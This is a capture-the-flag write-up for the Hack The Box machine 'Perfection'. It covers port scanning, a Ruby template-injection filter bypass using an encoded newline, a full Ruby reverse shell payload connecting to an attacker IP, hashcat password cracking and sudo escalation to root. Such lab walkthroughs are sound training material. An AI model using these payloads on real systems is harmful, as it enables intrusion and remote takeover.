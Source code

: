 # Perfection Writeup - by Thammanant Thamtaranon  
- Perfection is an easy Linux-based machine hosted on Hack The Box.

## Reconnaissance  
- We began by performing a full TCP port scan with version detection and OS fingerprinting using the command:  
  `nmap -A -T4 -p- 10.10.11.253`  
![Nmap_Scan](Nmap_Scan.png)

## Scanning & Enumeration  
- We enumerated web directories using:  
  `dirsearch -u http://10.10.11.253`  
![Dirsearch_Scan](Dirsearch_Scan.png)  
- Additional interesting paths discovered include:  
  - `/weighted-grade`  
  - `/weighted-grade-calc`  

## Exploitation  
- Initial XSS attempts were blocked, so we used Burp Suite Intruder with XSS payloads from `PayloadsAllTheThings/XSS Injection/Intruders/XSSDetection.txt`.  
- An interesting response with `<%` was observed, indicating Ruby embedded code execution using `<% %>` tags.  
- Since special characters were blocked by the input validator, we bypassed it using `%0A` (URL encoded newline).  
![Escape](Escape.png)  
![Ruby](Ruby.png)  
- Testing the command `<%= `id` %>` as `%3C%25%3D%20%60id%60%20%25%3E%0A` successfully executed the `id` command.  
![ID](ID.png)  
- We replaced it with a reverse shell payload:  
  `<% require 'socket';exit if fork;S=TCPSocket.new('10.10.16.11',4444);loop{S.print "$ ";IO.popen(S.gets,'r'){|io|S.puts io.read}} %>`  
  URL encoded as:  
`%3C%25%20require%20%27socket%27%3Bexit%20if%20fork%3BS%3DTCPSocket%2Enew%28%2710%2E10%2E16%2E11%27%2C4444%29%3Bloop%7BS%2Eprint%20%22%24%20%22%3BIO%2Epopen%28S%2Egets%2C%27r%27%29%7B%7Cio%7CS%2Eputs%20io%2Eread%7D%7D%20%25%3E`  
- We successfully obtained a shell as user `susan`, who is in the sudo group.  
![Susan](Susan.png)  
- We captured the **user flag**.

## Privilege Escalation  
- Credentials were found in `pupilpath_credentials.db` but were initially uncrackable.  
- Inspecting susan’s emails revealed hints to crack the password.  
![Mail](Mail.png)  
- We used Hashcat with the command:  
  `hashcat -m 1400 -a 3 hash.txt susan_nasus_?d?d?d?d?d?d?d?d?d --increment`  
  - `-m 1400`: SHA-256 hash mode  
  - `-a 3`: mask attack  
  - `--increment`: try shorter passwords first  
  - `?d`: digit placeholder (9 digits total)  
- Susan’s password was cracked successfully.  
![Password](Password.png)  
- We SSH’d into the machine with susan’s credentials.  
- Running `sudo -l` showed susan can run any command as sudo.  
- We executed `sudo su` to escalate to root.  
- We captured the **root flag**.  
![Root](Root.png)
